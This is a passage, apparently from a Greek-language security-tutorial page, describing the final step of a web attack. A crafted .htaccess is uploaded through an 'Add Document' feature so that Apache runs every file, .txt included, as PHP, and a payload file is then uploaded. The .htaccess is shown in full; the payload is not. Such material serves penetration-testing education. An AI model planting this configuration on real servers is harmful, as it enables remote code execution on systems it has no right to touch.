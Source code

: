 <figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Μέρος 3 (εκμετάλλευση της δυνατότητας _Προσθήκη Εγγράφου_) <a href="#part-3-leveraging-feature-add-document" id="part-3-leveraging-feature-add-document"></a>

Το τελευταίο βήμα είναι το πιο απλό και χωρίζεται σε δύο υποβήματα. Το πρώτο είναι να ανεβάσουμε ένα αρχείο σε μορφή .htaccess για να εκμεταλλευτούμε τις οδηγίες του Apache και να επιτρέψουμε στα αρχεία .txt να ερμηνεύονται από τη μηχανή PHP. Το δεύτερο είναι να ανεβάσουμε ένα αρχείο .txt που περιέχει το payload μας.

Αρχείο: .htaccess
```
<Files *>
SetHandler application/x-httpd-php
</Files>

# Vroum! Vroum!
# We reactivate PHP engines for all versions in order to be targetless.
<IfModule mod_php.c>
php_flag engine on
</IfModule>
<IfModule mod_php7.c>
php_flag engine on
</IfModule>
<IfModule mod_php5.c>
php_flag engine on
</IfModule>
```
Γιατί είναι αυτό το κόλπο ωραίο;
